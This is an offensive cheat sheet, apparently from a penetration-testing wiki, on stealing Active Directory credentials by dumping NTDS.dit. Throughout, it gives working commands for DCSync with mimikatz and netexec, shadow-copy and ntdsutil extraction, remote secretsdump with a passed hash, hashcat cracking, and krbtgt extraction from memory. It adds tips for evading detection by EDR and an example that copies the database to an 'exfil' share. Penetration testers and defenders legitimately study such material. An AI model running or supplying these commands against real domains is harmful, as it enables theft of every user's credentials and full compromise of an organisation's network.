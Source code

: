 # Active Directory - NTDS Dumping

You will need the following files to extract the ntds :

- NTDS.dit file
- SYSTEM hive (`C:\Windows\System32\SYSTEM`)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

- `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
- `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

## DCSync Attack

DCSync is a technique used by attackers to obtain sensitive information, including password hashes, from a domain controller in an Active Directory environment. Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data.

#### From Windows:
- DCSync only one user

  ```ps1
  mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
  ```

- DCSync all users of the domain

  ```ps1
  mimikatz# lsadump::dcsync /domain:htb.local /all /csv

  netexec smb 10.10.10.10 -u 'username' -p 'password' --ntds
  netexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi
  ```
#### From Linux:
- DCSync Using Impacket Secretsdump
  ```bash
  secretsdump.py -outputfile <outfile> -just-dc <domain/user>@<dc ip> 
  ```
> :warning: OPSEC NOTE: Replication is always done between 2 Computers. Doing a DCSync from a user account can raise alerts.

## Volume Shadow Copy

The VSS is a Windows service that allows users to create snapshots or backups of their data at a specific point in time. Attackers can abuse this service to access and copy sensitive data, even if it is currently being used or locked by another process.

- [windows-commands/vssadmin](https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/vssadmin)

  ```powershell
  vssadmin create shadow /for=C:
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
  ```

- [windows-commands/ntdsutil](https://learn.microsoft.com/fr-fr/troubleshoot/windows-server/identity/use-ntdsutil-manage-ad-files)

  ```powershell
  ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
  ```

- [Pennyw0rth/NetExec](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit) - VSS module

  ```powershell
  nxc smb 10.10.0.202 -u username -p password --ntds vss
  ```

## Forensic Tools

A good method for avoiding or reducing detections involves using common forensic tools to dump the NTDS.dit file and the SYSTEM hive. By utilizing widely recognized and legitimate forensic software, the process can be conducted more discreetly and with a lower risk of triggering security alerts.

- Dump the memory with [magnet/dumpit](https://www.magnetforensics.com/resources/magnet-dumpit-for-windows/)
- Use volatility to extract the `SYSTEM` hive

  ```ps1
  volatility -f test.raw windows.registry.printkey.PrintKey
  volatility --profile=Win10x64_14393 dumpregistry -o 0xaf0287e41000 -D output_vol -f test.raw
  ```

- Use [exterro/ftk-imager](https://www.exterro.com/digital-forensics-software/ftk-imager) to read the disk in raw state
    - Go to `File` -> `Add Evidence Item` -> `Physical Drive` -> `Select the C drive`.
    - Export `C:\Windows\NTDS\ntds.dit`.
- Finally use secretdump: `secretsdump.py LOCAL -system output_vol/registry.0xaf0287e41000.SYSTEM.reg -ntds ntds.dit`

## Extract hashes from ntds.dit

Then you need to use [impacket/secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract the hashes, use the `LOCAL` options to use it on a retrieved ntds.dit

```java
secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL
```

[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) also works remotely

```java
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

- `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
- `-user-status`: Display whether or not the user is disabled.

## Extract hashes from adamntds.dit

In AD LDS stores the data inside a dit file located at `C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit`.

- Dump adamntds.dit with Shadow copy using `vssadmin.exe`

    ```ps1
    vssadmin.exe create shadow /For=C:
    cp "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Program files\Microsoft ADAM\instance1\data\adamntds.dit" \\exfil\data\adamntds.dit
    ```

- Dump adamntds.dit with Windows Server Backup using `wbadmin.exe`

    ```ps1
    wbadmin.exe start backup -backupTarget:e: -vssCopy -include:"C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit"
    wbadmin.exe start recovery -version:08/04/2023-12:59 -items:"c:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit" -itemType:File -recoveryTarget:C:\Users\Administrator\Desktop\ -backupTarget:e:
    ```

- Extract hashes with [synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)

    ```ps1
    ntdissector path/to/adamntds.dit
    python ntdissector/tools/user_to_secretsdump.py path/to/output/*.json
    ```

## Crack NTLM hashes with hashcat

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:

- [Rockyou.txt](https://weakpass.com/wordlist/90)
- [Have I Been Pwned founds](https://hashmob.net/hashlists/info/4169-Have%20I%20been%20Pwned%20V8%20(NTLM))
- [Weakpass.com](https://weakpass.com/)
- Read More at [Methodology and Resources/Hash Cracking.md](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/hash-cracking/)

```powershell
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r myrules.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

:warning: If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :

- [hashmob.net](https://hashmob.net)
- [crackstation.net](https://crackstation.net)
- [hashes.com](https://hashes.com/en/decrypt/hash)

## NTDS Reversible Encryption

`UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED` ([0x00000080](http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm)), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin.
This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

- List users with "Store passwords using reversible encryption" enabled

    ```powershell
    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
    ```

The password retrieval is already handled by [SecureAuthCorp/secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) and mimikatz, it will be displayed as CLEARTEXT.

## Extract hashes from memory

Dumps credential data in an Active Directory domain when run on a Domain Controller.

:warning: Requires administrator access with debug privilege or NT-AUTHORITY\SYSTEM account.

```powershell
mimikatz> privilege::debug
mimikatz> sekurlsa::krbtgt
mimikatz> lsadump::lsa /inject /name:krbtgt
```

## References

- [Diskshadow The Return Of VSS Evasion Persistence And AD Db Extraction - bohops - March 26, 2018](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)
- [Dumping Domain Password Hashes - Pentestlab - July 4, 2018](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
- [Using Ntdissector To Extract Secrets From Adam Ntds Files - Julien Legras, Mehdi Elyassa - 06/12/2023](https://www.synacktiv.com/publications/using-ntdissector-to-extract-secrets-from-adam-ntds-files)
- [Bypassing EDR NTDS.dit protection using BlueTeam tools - bilal al-qurneh - Jun 9, 2024](https://medium.com/@0xcc00/bypassing-edr-ntds-dit-protection-using-blueteam-tools-1d161a554f9f)
